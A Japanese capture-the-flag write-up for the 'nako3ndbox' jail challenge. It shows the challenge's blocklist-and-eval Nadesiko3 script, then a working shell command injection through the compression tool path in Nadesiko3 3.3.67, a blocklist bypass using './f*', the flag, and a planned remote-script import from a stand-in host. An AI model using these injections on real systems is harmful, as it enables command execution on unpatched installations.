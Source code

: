 # nako3ndbox

## 問題文
に・ほ・ん・ご・で・あ・そ・ぼ  
`nc tsukuctf.sechack365.com 31418`  

[nako3ndbox.zip](files/nako3ndbox.zip)  

## 難易度
**medium**  

## 作問にあたって
なでしこ3の修正済みである脆弱性を使ったJail問題です。  
もともとは最新版を使い`！「http://ctf.example.com/attack.js」を取り込み`でRCEさせようと思っていましたが、`ナデシコする`でうまく動かないため、見つけた脆弱性を用いる事にしました。  
一応、CVE-2022-41642のバイパスなのでまだCVEはついていません(頑張れば脆弱性なしで解けます)。  

## 解法
なでしこ3を用いたJail問題のようだ。  
配布されたソースは以下のようであった。  
```
「------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------」と言う

「日本語コード：」と尋ねる
それを入力に代入

ブラックリスト＝「読、開、保存、実行、起動、サーバ、フォルダ、ファイル、ナデシコ、ディレクトリ、flag」を「、」で区切る

ブラックリスト！＝空の間
　　ブラックリストの０から１を配列取り出す
　　もし（入力でそれの出現回数）！＝０ならば
　　　　「日本語の世界からは出しませんよ！！！」と言う
　　　　終了する
　　ここまで
ここまで

「｛入力｝」をナデシコする

終了する
```
入力された文字列をブラックリストで検証し、evalにあたる`ナデシコする`で実行している。  
ブラックリストがない場合、`「ls」を起動`などでRCE可能だが今回は難しい。  
ここで配布されたファイルより、なでしこ3が最新版でなく、3.3.67である点に注目する。  
GitHubのIssuesを見てやると[cnako3の圧縮解凍の問題](https://github.com/kujirahand/nadesiko3/issues/1325)が見つかる。  
複数のシングルクォートを圧縮解凍系の処理に含めることで、OSコマンドインジェクションが可能なようだ。  
この修正を参考に任意コード実行を行う。  
今回は以下のように`圧縮解凍ツールパス`の引数としてコマンドを与える。  
```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sleep 10;'」。「」を「」へ解凍
/bin/sh: ': not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sleep 10;'' x '' -o'' -y
/bin/sh: ': not found
/bin/sh: : Permission denied
~~~
```
`sleep 10`を行うと10秒スリープした。  
フラグは`flag.txt`にあるので読みだせばよいが、`flag`がブラックリストにある。  
`./f*`などで回避してやればよい。  
コマンドの実行結果がなぜか出てこないことがあるので、`sh`に渡してエラーとして吐き出せばよい。  
```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sh ./f*;'」。「」を「」へ解凍
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sh ./f*;'' x '' -o'' -y
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
~~~
```
flagが得られた。  

## TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}